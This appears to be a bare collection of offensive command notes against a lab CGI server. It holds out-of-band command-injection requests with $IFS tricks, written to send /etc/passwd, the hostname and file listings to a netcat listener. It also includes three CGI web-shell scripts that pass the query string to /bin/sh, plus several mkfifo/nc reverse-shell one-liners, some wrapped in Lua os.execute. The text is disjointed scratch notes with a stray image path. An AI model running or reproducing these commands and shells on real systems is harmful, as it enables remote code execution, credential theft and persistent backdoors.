 echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://<IP GOES HERE>:8000/`hostname|base64`'



tcpdump -i eth0 -n icmp -c 3 2>/dev/null && curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?ping$\{IFS\}192.168.102.2'



echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://<IP GOES HERE>:8000/$\{IFS\}--post-data=`cat$\{IFS\}/etc/passwd|base64|tr$\{IFS\}-d$\{IFS\}"\n"`'



echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl -s 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://192.168.102.2:8000/$\{IFS\}--post-data=`ls$\{IFS\}\/tmp|base64|tr$\{IFS\}-d$\{IFS\}"\n"`'




echo -ne '\n\n' | nc -q 2 -C -lp 8000 & curl 'http://192.168.102.5:8080/cgi-bin/blind_shell_outofband?wget$\{IFS\}http://192.168.102.2:8000/$\{IFS\}--post-data=`ls$\{IFS\}\-ltr>/tmp/luisco.txt`'






blind_shell_outofband
```
#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c $cmd) > /dev/null &
echo "</pre></body></html>"
echo ""
echo ""
```

blind_shell
```
#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c "$cmd") > /dev/null
echo "</pre></body></html>"
echo ""
echo ""
```

shell
```
#!/bin/sh
echo "Content-type: text/html"
echo ""
echo "<html><body><pre>"
#echo "Received command is: "
#echo $QUERY_STRING
cmd=$QUERY_STRING
#echo "Command output is: "
(/bin/sh -c "$cmd") 2>&1
echo "</pre></body></html>"
echo ""
echo ""
```


```
/bin/sh -c &apos;(mkfifo /tmp/a; cat /tmp/a | /bin/sh -i 2>&1 | nc 192.168.1.217 1270 > /tmp/a)&&apos;
```

```
/bin/sh -c &apos;(mkfifo /tmp/zz; cat /tmp/zz | /bin/sh -i 2>&1 | nc 192.168.1.217 1288 > /tmp/zz)&&apos;
```
echo "nc 10.9.0.106 1288" > /tmp/zz

os.execute("/bin/sh -c &apos;(ping -c2 10.9.0.162 )&apos;")


os.execute("/bin/sh -c &apos;(rm /tmp/zz;mkfifo /tmp/zz;cat /tmp/zz | /bin/sh -i 2>&1 | nc 10.9.0.162 4242)&apos;")

os.execute("/bin/sh -c &apos;(rm /tmp/zz;mkfifo /tmp/zz;cat /tmp/zz | /bin/sh -i 2>&1 | nc 10.9.0.162 4242)&apos;")


